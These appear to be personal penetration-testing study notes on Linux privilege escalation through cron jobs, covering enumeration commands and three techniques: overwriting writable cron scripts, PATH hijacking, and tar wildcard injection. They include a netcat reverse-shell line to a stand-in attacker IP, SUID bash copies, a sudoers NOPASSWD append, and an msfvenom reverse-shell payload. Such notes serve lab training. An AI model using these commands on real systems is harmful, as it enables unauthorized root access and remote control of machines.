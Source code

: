 # Cron job

## Finding Cron jobs

1. cat /etc/crontab
2. cat /etc/cron*
3. ls -lah /etc/cron*
4. `sudo crontab -l` to know current users cronjobs
5. `grep "CRON" /var/log/syslog`
6. cat /etc/cron.d
7. cat /var/spool/cron/crontabs/root
8. find weird file in /opt or maybe /tmp and check timestamp of file
9. check `ls -la` on suspicious file and check their timing
10. use pspy tool

***

## Exploit with cron job

### weak file permission

* if it has write permission then write nc into it or any other reverse shell command
* start listening from our machine
* echo > 'nc ATTACK\_IP 4444 -e /bin/sh' > /path/to/cronjob/file

![[image 2 1.png]]


![[Pasted image 20240512040122.png]]

always give `+sx` to file
```
./bash -p
```


> [!NOTE]
> * check group permission also because it happens that we are part of that group


### Path variable overtake

* check path in /etc/crontab
* create new file with written path with same name of cronjob file

![[Pasted image 20240510225707.png]]

> [!NOTE]
> * start nc listener and put reverse shell in that new file
> * other way is,
> * cp /bin/bash /tmp/bash
> * chmod +s /tmp/bash
> * also give +x permission to newly created file
> * /tmp/bash -p

![[image 3 1.png]]


#### This method is applicable only when full path were not given like `overwrite.sh`
![[Pasted image 20240510225836.png]]

### Insecure coding practice

* infinite way as it's not always promised



* here, \* is covered
* create payload and transfer
* Create these two files in /home/user

![[Pasted image 20240510230032.png]]

`touch /home/user/--checkpoint=1`

`touch /home/user/--checkpoint-action=exec=shell.elf`

#### academy way
```
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

echo "" > "--checkpoint-action=exec=sh root.sh"

echo "" > --checkpoint=1
```


> [!NOTE]
> * msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
> * chmod +x /home/user/shell.elf
> 

![[image 4 1.png]]
